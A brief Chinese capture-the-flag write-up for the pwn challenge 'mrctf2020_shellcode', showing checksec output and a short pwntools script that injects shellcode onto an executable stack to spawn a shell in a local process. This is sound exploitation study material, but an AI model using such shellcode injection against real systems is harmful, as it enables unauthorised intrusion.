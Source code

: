 ```yaml
---
title: 'mrctf2020_shellcode'
date: 2024-11-11 13:00:00 +0800
categories: [pwntools,shellcode]
tags: [ctf,pwn]
---
```

![image-20240101170437978](../assets/img/old_imgs/image-20240101170437978.png)

- `pwntools`中`shellcode`使用与配置

```shell
bamuwe@qianenzhao:~$ checksec mrctf2020_shellcode
[*] '/home/bamuwe/mrctf2020_shellcode'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      PIE enabled
    Stack:    Executable
    RWX:      Has RWX segments
```

> 没有开启`NX`

1. 没有开启`NX`考虑往栈上直接写入代码
2. `ida`和动态调试都发现`buf`栈空间为`0x410`足够写入`shellcode`

```python
from pwn import *
context(arch='amd64',log_level='debug')
#io = gdb.debug('./mrctf2020_shellcode','break main')
io = process('./mrctf2020_shellcode')
payload = asm(shellcraft.sh())
io.sendlineafter(b'Show me your magic!\n',payload)
io.interactive()
```

一开始没加`context`那一行报了`EOF`错误,是因为`shellcraft.sh()`默认生成的是`32`位`shellcode`,我们需要给他配置一下环境.

> 参考:[能坑我，但没有完全坑我——mrctf2020_shellcode - Haokunnnnnnnna - 博客园 (cnblogs.com)](https://www.cnblogs.com/p201921420037/p/14646604.html)


